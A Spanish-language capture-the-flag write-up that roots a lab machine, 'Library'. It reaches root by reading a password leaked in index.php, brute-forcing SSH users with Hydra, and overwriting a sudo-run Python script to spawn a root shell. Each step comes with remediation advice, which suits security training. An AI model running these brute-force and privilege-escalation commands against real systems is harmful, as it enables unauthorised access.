






# 🛡️ Writeup — Máquina "Library"

**IP objetivo:** `172.17.0.2`
**Sistema operativo:** Ubuntu
**Servicios expuestos:** `22 (SSH — OpenSSH 9.6p1)`, `80 (HTTP — Apache 2.4.58)`

---

## 📌 Resumen Ejecutivo

> [!NOTE]
> Compromiso total de la máquina (acceso root) mediante una contraseña filtrada en `index.php`, identificación del usuario propietario por fuerza bruta dirigida, y secuestro de un script Python ejecutable con `sudo` sin contraseña.

---

## 🔍 1. Reconocimiento

```bash
nmap -p- --open -sS -sC -sV -T4 -n -vvv -O -Pn 172.17.0.2
```
- `22/tcp`: OpenSSH 9.6p1 (Ubuntu)
- `80/tcp`: Apache httpd 2.4.58 (Ubuntu)



### Enumeración web
```bash
whatweb http://172.17.0.2
```
Inicialmente solo se observa una instalación estándar de Apache.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt
```
Se encuentra `index.php`.



---

## 🚩 Hallazgos

### 🟠 H1: Credencial filtrada en `index.php`

**Severidad:** Alta

**Resumen:** El contenido de `index.php` expone una cadena de caracteres que resulta ser una contraseña filtrada en el código fuente o la respuesta HTTP del sitio.

**PoC**
```bash
curl http://172.17.0.2/index.php
```
Cadena identificada: `JIFGHDS87GYDFIGD`



**Impacto:** Fuga de credencial de sistema, aún sin conocer a qué usuario pertenece.

**Recomendación:** Auditar código fuente y respuestas HTTP en busca de cadenas o comentarios sensibles antes de desplegar a producción.

---

### 🟠 H2: Identificación de usuario mediante fuerza bruta dirigida (Hydra)

**Severidad:** Alta

**Resumen:** Con una contraseña potencial en mano (H1), se identifica a qué usuario del sistema pertenece mediante fuerza bruta de usuarios contra SSH.

**PoC**
```bash
hydra -L /usr/share/wordlists/rockyou.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2 -t 64
```
Credenciales encontradas: `carlos` / `JIFGHDS87GYDFIGD`



```bash
ssh carlos@172.17.0.2
```

**Impacto:** Acceso inicial al sistema — confirma además reutilización de contraseña entre el backend web y la cuenta SSH del sistema.

**Recomendación:** No reutilizar contraseñas entre aplicaciones web y cuentas de sistema.

---

### 🔴 H3: Escalada de privilegios vía secuestro de script Python (`sudo` NOPASSWD)

**Severidad:** Crítica

**Resumen:** El usuario `carlos` puede ejecutar un script Python específico como root sin contraseña, y tiene permisos de escritura sobre dicho script — permitiendo sobrescribirlo con código arbitrario que se ejecutará con privilegios de root.

**Detalle / Causa raíz**
```bash
sudo -l
```
```
(ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```


**PoC**
```bash
echo 'import os; os.system("/bin/bash")' > /opt/script.py
sudo /usr/bin/python3 /opt/script.py
whoami
# root
```
Al ejecutar `python3` como root sobre un script cuyo contenido controlamos, Python interpreta las instrucciones con el máximo nivel de privilegios del sistema.



**Impacto:** Compromiso total del sistema.

**Recomendación:** Nunca otorgar `sudo` sobre scripts modificables por el usuario que los ejecuta; si es imprescindible, protegerlos con permisos de solo lectura para el usuario de la regla sudoers.

---

## 🔗 Cadena de ataque

```text
Enumeración web → contraseña filtrada en index.php (H1) → fuerza bruta dirigida (H2, usuario carlos) →
acceso SSH → secuestro de /opt/script.py con sudo NOPASSWD (H3) → root
```

---

## 🛡️ Recomendaciones generales

- **Information Leakage:** auditar código fuente y respuestas HTTP en busca de credenciales expuestas.
- **Password Reuse:** no reutilizar contraseñas entre backend web y cuentas de sistema.
- **Abuso de Sudo:** nunca permitir ejecutar como root un script modificable por el usuario.

---

## 🧾 Conclusión

> [!NOTE]
> El compromiso total se logró encadenando tres fallos: fuga de credencial en `index.php`, reutilización de esa misma contraseña en la cuenta SSH, y un script Python modificable ejecutable con `sudo` sin contraseña.
